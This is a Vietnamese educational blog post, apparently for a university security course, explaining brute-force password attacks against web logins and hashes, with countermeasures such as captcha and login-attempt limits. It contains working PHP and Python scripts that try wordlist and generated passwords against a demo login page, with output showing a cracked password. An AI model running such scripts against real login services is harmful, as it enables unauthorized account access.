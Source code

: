 ```yaml
---
layout: post
title: More about brute  force attack
date: 2015-08-23 11:28
categories: CSATT attack
---
```

Hôm trước thầy Tuấn Anh đã nhắc đến phương pháp này, tuy nhiên tôi sẽ làm rõ thêm một số vấn đề, đây không phải là một bài giải cặn kẽ cho các bạn, nó mang tính định hướng nhiều hơn.

## Code sample
Giả sử tôi có trang đăng nhập là [http://tqk.itps.com.vn/demo.php](http://tqk.itps.com.vn/demo.php). Tôi sẽ tiến hành brute mật khẩu của user: test@demo.brute

PHP:
{% highlight php linenos startinline=true %}
<?php
$dic = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo'];
foreach ($dic as $password) {
    $email = 'test@demo.brute';
    url = 'http://tqk.itps.com.vn/demo.php';
    $data_string = 'email=' .urldecode($email). '&password=' .urlencode($password);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $result = curl_exec($ch);
    curl_close($ch);
    if (strpos($result, 'talent') == false){
        echo " Password: " .$password. " => Wrong password!";
    } else {
        echo "Password: " .$password. " => You got it.";
    }
}
?>
{% endhighlight %}

Run test:

~~~
Password: demo => Wrong password!
Password: 123 => Wrong password!
Password: 1234 => Wrong password!
Password: 123456 => Wrong password!
Password: test => Wrong password!
Password: demo1 => Wrong password!
Password: demo123 => You got it.
Password: 123demo => Wrong password!
~~~
Python:

{% highlight python linenos %}
import requests
pwlist = ['demo', '123', '1234', '123456', 'test', 'demo1', 'demo123', '123demo']
url = 'http://tqk.itps.com.vn/demo.php'
for password in pwlist:
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  if('talent' in req.text):
    print('Password found:', password)
{% endhighlight %}


~~~
Admin@LEOK-PC
$ py demobrute.py
Password found: demo123
~~~
Trên đây tôi đã demo cho các bạn phương pháp brute bằng từ điển - dictionary hay wordlist ( từ điển ở đây chính là array/list tôi đưa vào, thông thường thì lấy từ điển từ file). Tôi sẽ không đi sâu vào code ( nếu như một số bạn không hiểu), mà chủ yếu là để các bạn nhìn ra rằng phương pháp tấn công này được áp dụng như thế nào. Nói thêm rằng thông thường các worldlist sẽ được khởi tao thông qua các thuật toán, pattern để giảm bớt các mật khẩu "vô nghĩa", nhưng không phải luôn luôn như thế.

Việc tấn công có hay không sử dụng từ điển đều được hoạt động trên cùng cơ chế, tức là bạn sẽ phải generate ra các password theo pattern ( bao nhiêu kí tự, thường hay hoa, hay giả sử đã biết kí tự gì đó...v.v..) rồi lần lượt thực hiện việc đăng nhập và dựa vào kết quả trả về để xác định mật khẩu đúng.

Xem ví dụ sau, ở đây tôi sử dụng itertools trong python để generate wordlist:

{% highlight python linenos %}
import requests
import itertools
import time
charset = 'abcdefghijklmnopqrstuvwxyz0123456789'
url = 'http://tqk.itps.com.vn/demo.php'
res = itertools.product(charset, repeat=6)
start_time = time.time()
for i in res:
  password = ''.join(i)
  payload = {'email':'test@demo.brute', 'password':password}
  req = requests.post(url, data=payload)
  print('Trying password: ', password)
  if('talent' in req.text):
    print('Password found:', password)
    print('\nTaken %s seconds to crack very easy password' %time.time() - start_time)
  else:
    print('Failed.....')
{% endhighlight %}

Và khi tôi chạy đoạn code này, với một máy tính "bình dân" của tôi, ước tính phải mất đến hơn 3 năm để có thể duyệt hết được số lượng hơn 2 tỉ mật khẩu đơn giản có độ dài 7 kí tự chỉ bao gồm chữ cái thường và chữ số. ( Ở đây tôi không đề cập đến việc perfomance, multithreading, đường truyền, sử dụng GPU và một số vấn đề khác). Một con số đáng kể.

Đa số các tấn công brute force áp dụng vào các dịch vụ đăng nhập web/server ( via GET/POST) và tấn công vào các mã hóa, hàm băm ( sau này các bạn sẽ được tìm hiểu về hàm băm trong môn CSLT Mật mã), SSH, cùng một số sản phẩm khác.

Tôi sẽ nói qua về việc brute hàm băm (sử dụng thuật toán "một chiều" tức là có mã hóa nhưng không có giải mã), đó là chúng ta sử dụng các bản rõ, nằm trong wordlist, rồi thực hiện mã hóa sau đó so sánh với bãn mã cần crack. Tất nhiên, các mật mã hàm băm vẫn có xác suất trùng lặp, có nghĩa là có thể có 2 bản rõ nhưng cùng một bản mã, tuy nhiên xác suất này rất nhỏ, đủ để người ta chấp nhận được.

Có thể hiểu việc brute giống như các bạn đang thử làm một điều gì đó có phù hợp với mình hay không, như thử giày, thử công việc, thử người yêu ;))) Đối với mọi đối tượng thì đều có một mục đích chung, chỉ khác mỗi cách thức bạn tiếp cận. Đại khái là như thế đó.

## Protection

Như vậy, tấn công brute force sẽ phá vỡ các tính chất ATTT của một hệ thống thông tin nếu không có biện pháp khắc phục. Về cơ bản, các máy chủ có nhiều cách để bảo về khỏi các cuộc tấn công đơn giản này bằng cách cấu hình rule cho firewall, hoặc cũng có thể áp dụng ngay trên các ứng dụng đăng nhập, như captcha là một ví dụ điển hình, hay việc giới hạn số lần đăng nhập thất bại trong khoảng thời gian nào đó. Bạn đọc có thể tự tìm hiểu thêm.

## More information

* Trong suốt bài viết tôi không hề muốn sử dụng đến từ "mật khẩu", vì đơn giản, chúng ta đang học một môn chuyên nghành, và tôi nghĩ "mật khẩu" không phải là từ có thể thay thế cho "password".

* Trên bài viết tôi có đề cập đến việc sử dụng code cho việc brute force, tuy nhiên, hiện tại có rất nhiều công cụ mạnh mẽ giúp chúng ta brute mật khẩu website, tạo wordlist, crack hash, crack network password (brute force)có thể kể đến như [John The Ripper](http://www.openwall.com/john/), [Hashcat](http://hashcat.net/oclhashcat/), [Hydra](https://github.com/vanhauser-thc/thc-hydra), [burpsuite](https://portswigger.net/burp/), [cewl](https://digi.ninja/projects/cewl.php). Một số công cụ được cung cấp sẵn trong các penetration testing linux distro như Kali, backbox, pentoo, parrot...

* Toàn bộ code các bạn có thể xem [tại đây](https://github.com/bytekve/bytekve.github.io/tree/master/codesample).

